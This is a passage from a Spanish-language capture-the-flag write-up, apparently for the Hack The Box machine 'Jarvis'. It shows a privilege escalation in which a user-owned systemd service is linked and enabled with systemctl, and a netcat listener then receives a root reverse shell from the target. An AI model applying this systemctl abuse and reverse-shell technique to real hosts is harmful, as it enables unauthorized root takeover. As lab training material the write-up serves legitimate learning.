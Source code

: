 ```bash
[Install]
WantedBy = multi-user.target
pepper@jarvis:~/privesc$
```

Ahora creamos un link de nuestro servicio y lo habilitamos, para esto ya debemos estar en escucha por el puerto 443:

```bash
pepper@jarvis:~/privesc$ systemctl link /home/pepper/privesc/privesc.service 
Created symlink /etc/systemd/system/privesc.service -> /home/pepper/privesc/privesc.service.
pepper@jarvis:~/privesc$ systemctl enable --now /home/pepper/privesc/privesc.service
Created symlink /etc/systemd/system/multi-user.target.wants/privesc.service -> /home/pepper/privesc/privesc.service.
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39850
bash: cannot set terminal process group (1216): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# whoami
whoami
root
root@jarvis:/# 
```

Ya nos encontramos como el usuario **root** y podemos visualizar la flag (root.txt).
